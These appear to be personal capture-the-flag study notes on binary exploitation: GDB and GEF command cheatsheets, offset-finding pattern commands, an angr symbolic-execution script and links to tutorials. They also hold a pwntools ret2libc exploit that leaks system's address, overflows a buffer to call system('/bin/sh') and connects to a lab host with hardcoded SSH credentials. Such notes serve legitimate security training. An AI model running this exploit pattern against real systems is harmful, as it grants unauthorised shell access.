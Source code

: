 # UltraPWN

https://www.youtube.com/playlist?list=PLt9cUwGw6CYHKBH5OoR8M2ELGlNlrgBKl
https://www.youtube.com/playlist?list=PLt9cUwGw6CYEmxx_3z1d-uT9zdEd58yOq
https://www.youtube.com/playlist?list=PLt9cUwGw6CYF6Kj19mBZpfhQPsRIC5vGl

Understand how https://github.com/xct/ropstar works to do it your self without automating or cheating


- better https://github.com/Crypto-Cat/CTF/blob/main/auto_ghidra.py

GDB Quick Commands
- disassemble: `disas <addr>`
- continue: `c`
- step: `s`
- step over: `n`
- finish function: `fin`
- dump memory: `x/20x <addr>`
- dump registers: `info registers`
- dump call stack: `bt`
- list breakpoints: `info break`
- memory mapping: `vmmap`
- heap infos: `heap chunks`,`print main_arena`
- show GOT: `print $_got()`
- pattern: `pattern create <n>`, `pattern search <offset>`
- shellcode: `shellcode search <arch>`, `shellcode get <num>`

```c
entry-break

```
`angr` for Kali Linux 
```bash
python3 -m venv myenv
source myenv/bin/activate
pip install angr
```
Use for binary Analysis
```python
import angr
import sys

# Author XCT from https://www.youtube.com/watch?v=UnZj5zzcBG4

# Use symbolic execution to explore all flow control possibilities of a program
# Then print out all the deadends of these explored states
def main(argv):
    binary = "CHANGE THIS"
    project = angr.Project(binary)
    init = project.factory.entry_state()
    simulation_manager = project.factory.simgr(init)
    simulation_manager.explore()
    for state in simulation_manager.deadended:
        print(state.posix.dumps(sys.stdin.fileno()))

if __name__ == '__main__':
    main(sys.argv)
```


gdb cheatsheet additions list
https://github.com/garyhooks/oscp/blob/master/Cheat_Sheets/Cheatsheet_GDB.txt


Gef ULTRA cheatsheet
```c
# Break at entry point
entry-break
# dump assemble code at the current point 
disassemble
# Set a breakpoint at a function call 
break $funcHandle.$funcHandle
# Set breakpoint at memory address
break *0x000133780085
run
```

```bash
msf-pattern_create -l 100 | xsel -b 

msf-pattern_offset -l 100 -q $address
```

PWNTOOLs - beware this very binary heaven specific
```python
from pwn import *
import struct

context.terminal = ['tmux', 'new-window']
target = './pwn_me'
context.binary = target
binary = ELF(target)
libc = ELF("./libc.so.6")

ssh_host = '10.10.232.171'
ssh_user = 'guardian'
ssh_pass = 'GOg0esGrrr!'
ssh_port = 22

if args['SSH']:
    sh = ssh(host=ssh_host, user=ssh_user, password=ssh_pass, port=ssh_port)
    p = sh.run('/bin/bash')
    junk = p.recv(4096,timeout=2)
    p.sendline(target)
else:
    p = process(target,setuid=True)


p.recvline()
leak = p.recvline()[-11:].rstrip(b"\n")
system = int(leak[2:],16)
log.info(hex(system))
libc.address = system - libc.symbols['system']

buffer = b""
buffer += b"A"*32
buffer += p64(libc.symbols['system'])
buffer += p64(next(libc.search(b'/bin/sh\x00')))

gdb.attach(p, gdbscript='continue')
p.sendline(buffer)

p.interactive()

```

`ltrace`


Template Meta-gaming 
- https://notes.vulndev.io/wiki/redteam/binary-exploitation/templates
- https://notes.vulndev.io/wiki/redteam/templates
- https://github.com/nikosChalk/exploitation-training/blob/master/pwn-template.py
- https://notes.vulndev.io/wiki/redteam/binary-exploitation/templates


https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/07_reverse_engineering.md
```
(gdb) b main                           // sets breakpoint to main function
(gdb) b *0x5655792b                    // sets breakpoint on specific address
(gdb) run                              // starts debugging
(gdb) r                                // starts debugging
(gdb) r `python -c 'print "A"*200'`    // rerun the program with a specific parameter
(gdb) c                                // continue
(gdb) r Aa0Aa---snip---g5Ag            // run custom strings on a binary
(gdb) si                               // switch to instructions
(gdb) si enter                         // step-wise debugging
(gdb) x/s 0x555555556004               // x/s conversion
(gdb) p system                         // print memory address of system
(gdb) searchmem /bin/sh                // search within the binary
(gdb) disas main                       // disassemble main function
(gdb) b*0x080484ca                     // add a specific breakpoint
(gdb) x/100x $esp                      // getting EIP register
(gdb) x/100x $esp-400                  // locate in EIP register
(gdb) pattern create 48                // creates 48 character long pattern
(gdb) x/wx $rsp                        // finding rsp offset
(gdb) pattern search                   // finding pattern
(gdb) info functions <FUNCTION>        // getting function information
```


https://github.com/ChrisPritchard/ctf-writeups/blob/master/GDB-TIPS-AND-TRICKS.md


#### References

https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94
